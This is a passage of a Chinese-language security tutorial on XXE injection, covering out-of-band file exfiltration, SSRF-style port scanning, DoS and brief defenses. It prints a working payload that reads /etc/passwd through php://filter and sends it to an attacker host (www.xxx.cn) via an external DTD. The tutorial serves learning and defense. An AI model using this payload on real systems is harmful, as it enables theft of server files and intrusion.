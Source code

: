 PHP 可以采用 `php://filter` 获取目标文件的内容。

```xml
<!DOCTYPE a [ 
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
    <!ENTITY % dtd SYSTEM "http://www.xxx.cn/attack.dtd">
    %dtd; %accesslog; %data;
]>
```

attack.dtd 的内容。

```xml
<!-- 通过 PHP 接收 GET 参数来获得数据，也可直接查 WebServer 日志 -->
<!ENTITY % accesslog "<!ENTITY &#37; data SYSTEM 'http://www.xxx.cn/?c=%file;'>">
```

Payload 引用外部实体文件 dtd，文件内容被解析后调用参数实体 %accesslog，accesslog 参数内容是个嵌套实体，调用会联动触发 %file，最终数据当做 GET 参数传递到服务器——GET 参数不会有长度限制吗？

### 主机/端口扫描

由于采用的是 HTTP 协议请求外部实体，我们也可以像 SSRF 一样探测内网和主机端口。

### DOS

XXE 还可以进行 DOS，主要先定义一个实体值会有很多，接着循环嵌套相互调用多次即可。

## 总结

哪些地方可能存在 XXE：

1.  HTTP DATA 是 XML 时可以尝试。
2.  有时某些库也默认解析 XML，可以尝试把 Content-Type 改为 `Content-Type: application/xml`。

## 防御（待补充实例）

-   配置对应库禁用使用外部实体。
-   采用黑名单方式过滤用户传递 DTD 关键字。

## 参考链接

-   [https://www.runoob.com/xml/xml-dtd.html](https://www.runoob.com/xml/xml-dtd.html)
-   [DTD 教程](https://www.runoob.com/dtd/dtd-tutorial.html)
-   [DTD 实体 XXE 浅析](http://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247486487&idx=1&sn=52c85b90fdf6fac327f30afc2279624a&chksm=ec1e3c3fdb69b529e1f124cf80a2d22275a5ed1de1c023353559886fb799b73d100c05857b8b&scene=21#wechat_redirect)
-   [十四、XML 外部实体注入](https://wizardforcel.gitbooks.io/web-hacking-101/content/14.html)，实际案例值得一看。
-   [一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357) ，深度好文
-   WebGoat8.0
-   [What Are XML External Entity (XXE) Attacks](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)

## 问题

1.  除了可以通过 http、file 协议可以关注语言本身还支持哪些。

最近更新：2022 年 06 月 22 日 17:23:18

发布时间：2020 年 07 月 21 日 01:15:00
